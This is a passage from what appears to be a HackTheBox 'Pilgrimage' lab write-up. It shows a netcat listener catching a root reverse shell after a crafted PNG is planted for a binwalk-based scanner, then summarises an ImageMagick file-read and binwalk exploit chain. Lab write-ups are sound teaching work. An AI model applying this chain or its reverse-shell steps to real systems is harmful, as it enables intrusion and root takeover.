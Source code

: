 I start a `nc` listener, and copy the payload on the target to the right destination:

```console
emily@pilgrimage:~$ cp x.png /var/www/pilgrimage.htb/shrunk/
```

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.219] 46484
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
0e9969[...]
```

## Summary

Target runs a web service to resize images. It uses an ImageMagick binary on the backend which has an LFI vulnerability, <https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC>. This paired with the `git` repo being exposed at the web root (`http://$t/.git`) we can analyze `login.php` to find the name of the `sqlite` database, and use the LFI to retrieve a user password for user `emily`.

With user access, we can see a malware-scanning cron job that runs to analyze file uploads from the webservice. The scanner uses `binwalk` which itself has an exploit: <https://www.exploit-db.com/exploits/51249>. Using that exploit we can spawn a reverse shell as the `root` user.
